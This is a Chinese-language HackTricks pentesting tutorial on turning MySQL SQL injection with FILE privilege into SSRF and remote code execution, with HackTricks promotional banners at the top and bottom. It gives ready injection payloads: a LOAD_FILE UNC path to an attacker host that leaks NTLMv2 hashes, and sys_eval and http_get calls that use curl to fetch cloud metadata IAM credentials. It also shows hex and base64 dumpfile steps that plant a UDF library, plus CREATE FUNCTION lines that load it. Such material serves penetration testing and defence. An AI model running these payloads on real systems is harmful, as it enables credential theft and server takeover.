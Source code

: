 # MySQL File priv 到 SSRF/RCE

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML 到 SSRF

每篇关于SQL带外数据泄露的文章都会使用`LOAD_FILE()`字符串函数来发起网络请求。该函数本身基于其运行的操作系统和数据库启动时的设置有自己的限制。

例如，如果全局变量`secure_file_priv`没有设置，[默认值设置为`/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html)，这意味着您只能使用像`LOAD_FILE('filename')`或`LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename`这样的函数从`/var/lib/mysql-files/`目录读取文件。要能够对该目录外的文件进行读取，必须将`secure_file_priv`选项设置为`""`，这只能通过更新数据库配置文件或将`--secure_file_priv=""`作为启动参数传递给数据库服务来完成。

尽管如此，在`secure_file_priv`设置为`""`的情况下，我们应该能够读取系统上的其他文件，前提是文件读取权限和`mysql.user`中当前数据库用户的`file_priv`设置为`Y`。然而，能否使用这些函数进行网络调用非常依赖于操作系统。由于这些函数仅用于读取文件，唯一与网络相关的调用是对Windows主机上的UNC路径，因为[Windows的`CreateFileA` API在访问文件时理解UNC命名约定](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)。

因此，如果您的目标数据库运行在Windows机器上，注入查询`x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //`将[导致Windows机器在尝试使用攻击者控制的`\\attackerserver.example.com`进行认证时发送出NTLMv2哈希](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html)。

这种服务器端请求伪造虽然有用，但仅限于TCP端口445。您不能控制端口号，但可以从设置了完全读取权限的共享中读取信息。此外，正如早期研究所示，您可以使用这种有限的SSRF能力来窃取哈希并中继它们以获取shell，所以它绝对有用。

### 用户定义的函数到RCE

MySQL数据库的另一个酷炫技术是能够使用存在于外部库文件中的用户定义函数（UDF），如果这些库文件位于特定位置或系统$PATH中，则可以从MySQL内部访问。

您可以使用SQL注入来**编写库（`.so`或`.dll`**取决于Linux或Windows），包含可以进行网络/HTTP请求的用户定义函数，然后通过额外的查询调用它。

这有自己的一套限制。根据MySQL的版本，您可以通过`select @@version`来识别，可以从中加载插件的目录受到限制。MySQL在`v5.0.67`以下允许从系统路径加载库文件，如果没有设置`plugin_dir`变量。现在这已经改变，新版本将**`plugin_dir`**变量设置为类似于`/usr/lib/mysql/plugin/`的内容，通常由root拥有。

基本上**要通过SQL注入将自定义库加载到MySQL并通过加载的库调用函数，您需要**：

* 能够通过SQL注入**写入**指定在**`@@plugin_dir`**中的**位置**
* `mysql.user`中当前数据库用户的**`file_priv`**设置为**`Y`**
* **`secure_file_priv`**设置为**`""`**，以便您可以从任意位置（如网络或Web应用程序中的文件上传目录）读取库的原始字节。

假设满足上述条件，您可以使用**传统方法将**[**流行的MySQL UDF `lib_mysqludf_sys`库**](https://github.com/mysqludf/lib\_mysqludf\_sys) **传输到数据库服务器**。然后您可以使用如`cURL`或`powershell wget`这样的操作系统命令请求来执行SSRF，使用以下语法

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

这个库中声明了很多其他函数，可以在[这里](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/)看到分析。如果您像我一样懒，可以从metasploit安装中的`/usr/share/metasploit-framework/data/exploits/mysql/`目录获取这个UDF库的目标OS副本并开始使用。

或者，已经创建了UDF库，专门提供数据库进行HTTP请求的能力。您可以使用[MySQL用户定义函数（UDF）进行HTTP GET/POST](https://github.com/y-ken/mysql-udf-http)来让数据库进行HTTP请求，使用以下语法

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

您也可以[创建自己的UDF并在事后利用中使用它。](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)

无论如何，您需要将库传输到数据库服务器。您可以通过多种方式做到这一点

1. 使用MySQL的`hex()`字符串函数或类似`xxd -p filename.so | tr -d '\n'`将库的内容转换为十六进制格式，然后使用`x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`将其转储到`@@plugin_dir`目录
2. 或者，将`filename.so`的内容转换为base64并使用`x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

如果`@@plugin_dir`不可写，那么如果版本高于`v5.0.67`，您就没有运气了。否则，写入路径中的不同位置，并从那里加载UDF库

* 对于`lib_mysqludf_sys`库 - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* 对于`mysql-udf-http`库 - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`


对于自动化这个过程，您可以使用SQLMap，它支持[通过`--udf-inject`选项使用自定义UDF](https://github.com/sqlmapproject/sqlmap/wiki/Usage)。

对于盲SQL注入，您可以将UDF函数的输出重定向到一个临时表，然后从那里读取数据，或者使用[在`sys_eval`或`sys_exec` curl命令中偷运的DNS请求](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)。

<details>

<summary><strong>通过</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>从零开始学习AWS黑客攻击！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在**HackTricks中看到您的公司广告**或**下载HackTricks的PDF**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks商品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs系列**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在 **Twitter** 🐦 上**关注**我 [**@carlospolopm**](https://twitter.com/carlospolopm)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。**

</details>
